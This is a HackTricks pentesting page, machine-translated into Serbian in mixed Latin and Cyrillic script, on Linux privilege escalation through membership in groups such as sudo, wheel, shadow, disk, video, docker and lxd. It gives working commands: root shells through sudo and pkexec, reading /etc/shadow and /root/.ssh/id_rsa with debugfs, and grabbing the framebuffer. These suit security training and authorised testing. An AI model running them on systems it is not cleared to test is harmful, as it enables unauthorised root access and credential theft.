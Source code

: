 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

# Sudo/Admin Groups

## **PE - Metoda 1**

**Ponekad**, **podrazumevano \(ili zato što neki softver to zahteva\)** unutar **/etc/sudoers** datoteke možete pronaći neke od ovih linija:
```bash
# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL

# Allow members of group admin to execute any command
%admin 	ALL=(ALL:ALL) ALL
```
To znači da **bilo koji korisnik koji pripada grupi sudo ili admin može izvršavati bilo šta kao sudo**.

Ako je to slučaj, da **postanete root, možete jednostavno izvršiti**:
```text
sudo su
```
## PE - Metod 2

Pronađite sve suid binarne datoteke i proverite da li postoji binarna datoteka **Pkexec**:
```bash
find / -perm -4000 2>/dev/null
```
Ako otkrijete da je binarni fajl pkexec SUID binarni fajl i da pripadate sudo ili admin grupi, verovatno biste mogli da izvršavate binarne fajlove kao sudo koristeći pkexec.  
Proverite sadržaj:
```bash
cat /etc/polkit-1/localauthority.conf.d/*
```
Tamo ćete pronaći koje grupe imaju dozvolu da izvrše **pkexec** i **po defaultu** u nekim linuxima mogu **pojaviti** neke od grupa **sudo ili admin**.

Da **postanete root možete izvršiti**:
```bash
pkexec "/bin/sh" #You will be prompted for your user password
```
Ako pokušate da izvršite **pkexec** i dobijete ovu **grešku**:
```bash
polkit-agent-helper-1: error response to PolicyKit daemon: GDBus.Error:org.freedesktop.PolicyKit1.Error.Failed: No session for cookie
==== AUTHENTICATION FAILED ===
Error executing command as another user: Not authorized
```
**Nije zato što nemate dozvole, već zato što niste povezani bez GUI-a**. I postoji rešenje za ovaj problem ovde: [https://github.com/NixOS/nixpkgs/issues/18012\#issuecomment-335350903](https://github.com/NixOS/nixpkgs/issues/18012#issuecomment-335350903). Potrebno vam je **2 različite ssh sesije**:

{% code title="session1" %}
```bash
echo $$ #Step1: Get current PID
pkexec "/bin/bash" #Step 3, execute pkexec
#Step 5, if correctly authenticate, you will have a root session
```
{% endcode %}

{% code title="session2" %}
```bash
pkttyagent --process <PID of session1> #Step 2, attach pkttyagent to session1
#Step 4, you will be asked in this session to authenticate to pkexec
```
{% endcode %}

# Wheel Group

**Ponekad**, **po defaultu** unutar **/etc/sudoers** datoteke možete pronaći ovu liniju:
```text
%wheel	ALL=(ALL:ALL) ALL
```
To znači da **bilo koji korisnik koji pripada grupi wheel može izvršavati bilo šta kao sudo**.

Ako je to slučaj, da **postanete root, možete jednostavno izvršiti**:
```text
sudo su
```
# Shadow Group

Korisnici iz **grupe shadow** mogu **čitati** **/etc/shadow** datoteku:
```text
-rw-r----- 1 root shadow 1824 Apr 26 19:10 /etc/shadow
```
Тако да, прочитајте датотеку и покушајте да **разбијете неке хешеве**.

# Диск Група

Ова привилегија је скоро **еквивалентна root приступу** јер можете приступити свим подацима унутар машине.

Фајлови: `/dev/sd[a-z][1-9]`
```text
debugfs /dev/sda1
debugfs: cd /root
debugfs: ls
debugfs: cat /root/.ssh/id_rsa
debugfs: cat /etc/shadow
```
Napomena da pomoću debugfs možete takođe **pisati fajlove**. Na primer, da kopirate `/tmp/asd1.txt` u `/tmp/asd2.txt` možete uraditi:
```bash
debugfs -w /dev/sda1
debugfs:  dump /tmp/asd1.txt /tmp/asd2.txt
```
Međutim, ako pokušate da **pišete datoteke koje su u vlasništvu root-a** \(kao što su `/etc/shadow` ili `/etc/passwd`\) dobićete grešku "**Permission denied**".

# Video Grupa

Korišćenjem komande `w` možete saznati **ko je prijavljen na sistem** i prikazaće izlaz kao što je sledeći:
```bash
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
yossi    tty1                      22:16    5:13m  0.05s  0.04s -bash
moshe    pts/1    10.10.14.44      02:53   24:07   0.06s  0.06s /bin/bash
```
**tty1** значи да је корисник **yossi физички пријављен** на терминал на машини.

**video group** има приступ за преглед излаза на екрану. У основи, можете посматрати екране. Да бисте то урадили, потребно је да **узмете тренутну слику на екрану** у сировим подацима и добијете резолуцију коју екран користи. Податке о екрану можете сачувати у `/dev/fb0`, а резолуцију овог екрана можете пронаћи на `/sys/class/graphics/fb0/virtual_size`
```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```
Da biste **otvorili** **sirovu sliku**, možete koristiti **GIMP**, odabrati **`screen.raw`** datoteku i odabrati tip datoteke **Raw image data**:

![](../../.gitbook/assets/image%20%28208%29.png)

Zatim modifikujte Širinu i Visinu na one koje koristi ekran i proverite različite Tipove slika \(i odaberite onaj koji bolje prikazuje ekran\):

![](../../.gitbook/assets/image%20%28295%29.png)

# Root Grupa

Izgleda da po defaultu **članovi root grupe** mogu imati pristup da **modifikuju** neke **konfiguracione** datoteke servisa ili neke **biblioteke** ili **druge zanimljive stvari** koje se mogu koristiti za eskalaciju privilegija...

**Proverite koje datoteke članovi root grupe mogu modifikovati**:
```bash
find / -group root -perm -g=w 2>/dev/null
```
# Docker Grupa

Možete montirati root datotečni sistem host mašine na volumen instance, tako da kada se instanca pokrene, odmah učitava `chroot` u taj volumen. Ovo vam efektivno daje root pristup na mašini.

{% embed url="https://github.com/KrustyHack/docker-privilege-escalation" %}

{% embed url="https://fosterelli.co/privilege-escalation-via-docker.html" %}

# lxc/lxd Grupa

[lxc - Eskalacija privilegija](lxd-privilege-escalation.md)


<figure><img src="/.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Koristite [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=command-injection) za lako kreiranje i **automatizaciju radnih tokova** pokretanih najnaprednijim **alatom** zajednice.\
Pribavite pristup danas:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=command-injection" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
